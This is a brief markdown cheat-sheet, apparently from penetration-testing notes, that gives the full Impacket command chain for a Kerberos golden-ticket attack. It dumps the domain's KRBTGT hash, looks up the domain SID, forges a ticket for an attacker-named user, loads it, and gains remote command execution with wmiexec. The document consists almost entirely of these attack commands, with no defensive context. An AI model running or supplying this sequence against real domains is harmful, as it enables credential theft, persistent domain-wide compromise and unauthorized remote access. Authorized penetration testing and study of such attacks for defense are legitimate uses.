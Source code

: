 ### get KRBTGT hash
```
impacket-secretsdump -just-dc <domain>/<user>:<password>@<rhost> -just-dc-user krbtgt
```

### get Domain SID
```
impacket-lookupsid <domain>/<user>:<password>@<rhost>
```

### create ticket
```
impacket-ticketer -nthash <ntlmHash> -domain-sid <sid> -domain <domain> <attackerUser>
```

### export ticket
```
export KRB5CCNAME=<ticketFile>
```

### use ticket
```
impacket-wmiexec -k -no-pass <fqdnRhost>
```

